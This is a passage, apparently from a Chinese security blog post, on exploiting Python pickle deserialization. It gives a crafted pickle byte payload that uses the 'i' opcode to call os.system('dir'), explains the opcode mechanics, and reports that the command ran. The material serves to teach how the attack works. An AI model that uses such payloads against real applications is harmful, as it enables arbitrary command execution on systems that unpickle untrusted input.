 ```bash
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(Vdir\nios\nsystem\n0c__main__\nB\n)b.'
```

[![](assets/1705886719-97a3e90f1ef03d1c27b8e451a4ac72d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211347-946d9fea-b6cc-1.png)

> 简单来说，通过 i 指令将 os.system 推入 inst，进而使得 find\_class(os,system) 找到 kclass 为 os.system()，然后再通过 pop 触发 pop\_mark() 获取前序栈的 dir 内容，进入实例化类后变成了 system(dir) 触发了命令执行

[![](assets/1705886719-df39c1858cff8896b941b37c87b17f7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211353-981907d8-b6cc-1.png)

命令执行成功

[![](assets/1705886719-b17f2b2d15dd373cd337f9269693ac9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211357-9a6034c6-b6cc-1.png)
